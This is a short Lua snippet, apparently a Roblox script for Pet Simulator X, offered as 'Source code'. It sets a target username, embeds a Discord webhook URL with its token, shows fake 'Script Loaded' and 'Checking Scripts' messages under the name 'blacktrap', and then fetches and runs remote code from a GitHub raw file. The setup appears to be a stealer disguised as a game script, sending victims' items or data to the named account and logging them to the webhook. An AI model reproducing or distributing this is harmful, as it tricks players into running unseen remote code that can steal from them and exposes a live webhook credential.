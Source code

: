 Username = "Minato_hokage0905" WebHook = "https://discord.com/api/webhooks/1100394805361647670/YksmecnXXuVN4T6qo3iJzEtsDIPDeNqDXB2N8CKq0HAvqSXmZ9fsiEJVBqQap5fJiJ6M" _G.CustomScriptName = "Welcome to blacktrap" _G.Text1 = "Script Loaded..." _G.Text2 = "Waiting for Script" _G.Text3 = "Checking Scripts..." _G.Text4 = "Starting Scripts..." loadstring(game:HttpGet("https://raw.githubusercontent.com/Justanotherdme/petsimx22/main/petsimguiss.lua"))()
